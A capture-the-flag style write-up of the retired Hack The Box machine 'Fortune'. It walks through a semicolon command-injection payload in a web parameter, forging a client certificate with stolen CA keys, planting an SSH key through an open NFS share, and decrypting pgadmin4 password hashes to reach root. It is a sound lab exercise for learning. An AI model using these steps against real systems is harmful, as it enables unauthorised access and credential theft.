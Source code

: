 # Fortune

This is the write-up for the box Fortune that got retired at the 3rd August 2019.
My IP address was 10.10.15.241 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.127    fortune.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/fortune.nmap 10.10.10.127
```

We get following results:
```markdown
PORT    STATE SERVICE    VERSION
22/tcp  open  ssh        OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 07:ca:21:f4:e0:d2:c6:9e:a8:f7:61:df:d7:ef:b1:f4 (RSA)
|   256 30:4b:25:47:17:84:af:60:e2:80:20:9d:fd:86:88:46 (ECDSA)
|_  256 93:56:4a:ee:87:9d:f6:5b:f9:d9:25:a6:d8:e0:08:7e (ED25519)
80/tcp  open  http       OpenBSD httpd
|_http-server-header: OpenBSD httpd
|_http-title: Fortune
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time
```

## Checking HTTP (Port 80)

This is a page that gets you different fortunes whenever you reload it, so there must be some server-side things that happen.
Send it to Burpsuite and try some characters in the _db_ parameter, to see how the page reacts.
As special characters let it error out, we try some fuzzing with **WFUZZ**.

```markdown
wfuzz --hh 293 -w /usr/share/seclists/Fuzzing/special-chars.txt -d db=startrekFUZZ http://10.10.10.127/select
```

This gets us the following characters: &, +, \, ;
The _ampersand_ and the _plus_ are uninteresting for us and the _backslash_ is for escaping characters.
So the only thing that is interesting is the _semicolon_.

If we put a command as after the value in the parameter _db_ like this:

```markdown
db=startrek;id
```

Then the command gets executed. This means we try to get a reverse shell with **Netcat**.
Netcat is installed on the machine but doesn't work. There is probably a firewall in the way because pinging works.
We are writing our own script to get a reverse shell, that is in this folder named **cmd-inject.py**

Now we have pseudo reverse shell as the user \_fortune.

### Pseudo reverse shell on box
Interesting files on the box:
- /etc/authpf/authpf.rules
  - This are the rules for BSDs Firewall _Packet Filter_
- /var/appsrv/fortune/fortuned.py
  - Flask App on the website
  
We are looking for the signing keys to check the HTTPS page:
```markdown
find / -name *.pem
```

And we find the following keys:
- /home/bob/ca/intermediate/certs/intermediate.cert.pem
- /home/bob/ca/intermediate/private/intermediate.key.pem

## Checking HTTPS (443)

Checking the certificate:
```markdown
openssl s_client -connect 10.10.10.127:443
```

We get potential users named _charlie_ and _bob_

### Creating our own key

Putting contents of intermediate.cert.pem into _intermediate.cert_.
Putting contents of intermediate.key.pem into _intermediate.key_.

```markdown
openssl genrsa -out kyuuji.key 2048
openssl req -new -key kyuuji.key -out kyuuji.csr
openssl x509 -req -in kyuuji.csr -CA intermediate.cert -CAkey intermediate.key -CAcreateserial -out kyuuji.pem -days 1024 -sha256
```

Formatting it into PKCS12 format for Firefox:
```markdown
openssl pkcs12 -export -out kyuuji.pfx -inkey kyuuji.key -in kyuuji.pem -certfile intermediate.cert
```

Now import the .pfx file into the Firefox certificates and the HTTPS site works.
It says:
> You will need to use the local authpf service to obtain elevated network access. If you do not already have the appropriate SSH key pair, then you will need to generate one and configure your local system appropriately to proceed.

The word _generate_ sends us to the path /generate where we can generate a SSH key and copy it into a new file.

After checking the /etc/passwd with out pseudo-shell we can try all possible users and this one works:

```markdown
ssh -i fortune.ssh nfsuser@10.10.10.127
```

But instead of a shell we get this:
> Hello nfsuser. You are authenticated from host "10.10.15.241"

## Next Scan

We do a new nmap scan to see if new ports are open when our SSH connection stanys open.

```markdown
nmap 10.10.10.127
```

We get 2 more open ports now:
- Port 8081 as blackice-icecap
- Port 2049 as nfs

### Checking NFS

```markdown
showmount -e 10.10.10.127
```
This command is included in the _nfs-common_ package.

The out we get is: /home (everyone).
That means we can mount this nfs share.

```markdown
mount -t nfs -o vers=2 10.10.10.127:/home /mnt
```

In our /mnt folder we can see the home folders of charlie, bob and nfsuser, so let's check their files.
The user charlie has the UID of one of my users (user01) on my machine, so if I switch to that user I can access his files.

```markdown
su - user01
cat charlie/user.txt
cat mbox
```

**We now have user.txt.**

The mbox file is a mail file and says the following:
> Thanks for setting-up pgadmin4 for me. Seems to work great so far.
> BTW: I set the dba password to the same as root. I hope you don't mind.

We now know that there is a Postgres database that has the same password as root and bob can read it.

## Privilege Escalation

Creating our own key to escalate privileges to charlie.

```markdown
ssh-keygen -f charlie.ssh
(Copy content of charlie.ssh.pub into /mnt/charlie/.ssh/authorized_keys)
chmod 600 charlie.ssh
```

Logging in with charlies SSH key:
```markdown
ssh -i charlie.ssh charlie@10.10.10.127
```

We escalated our privileges to charlie and have a SSH session open!

### Looking for the Postgres database

We should now read the contents of the postgres database where the password for root is in:

```markdown
cd /var/appsrv/pgadmin4
sqlite3 pgadmin4.db
.dump
```

This will give us the hash of the password but if you want to search more granular:

```markdown
sqlite3 pgadmin4.db ".schema" | grep -i Create
sqlite3 pgadmin4.db "select * from user;"
sqlite3 pgadmin4.db "select * from server;"
```

Hash of server: utUU0jkamCZDmqFLOrAuPjFxL0zp8zWzISe5MF0GY/l8Silrmu3caqrtjaVjLQlvFFEgESGz
Hash of bob: $pbkdf2-sha512$25000$z9nbm1Oq9Z5TytkbQ8h5Dw$Vtx9YWQsgwdXpBnsa8BtO5kLOdQGflIZOQysAy7JdTVcRbv/6csQHAJCAIJT9rLFBawClFyMKnqKNL5t3Le9vg

I am putting the hashes into the file _sqlite.hashes_.

#### Find out what those hashes are

If we read the file _/var/appsrv/pgadmin4/pgadmin4.ini_ we see that the source code of the application is in the folder _/usr/local/pgadmin4/pgadmin4-3.4/web/_

So lets go there and look for the word _decrypt_:

```markdown
grep -iRl decrypt .
```

The file _./pgadmin/utils/crypto.py_ looks very interesting and is the one that decrypts the hashes.
I copy the contents of the file on my machine and put the following line at the end of it:

```markdown
print decrypt("utUU0jkamCZDmqFLOrAuPjFxL0zp8zWzISe5MF0GY/l8Silrmu3caqrtjaVjLQlvFFEgESGz","$pbkdf2-sha512$25000$z9nbm1Oq9Z5TytkbQ8h5Dw$Vtx9YWQsgwdXpBnsa8BtO5kLOdQGflIZOQysAy7JdTVcRbv/6csQHAJCAIJT9rLFBawClFyMKnqKNL5t3Le9vg")
```

Execute crypto.py and we get the decrypted password of bob.
If we now _su -_ we are root on the machine.
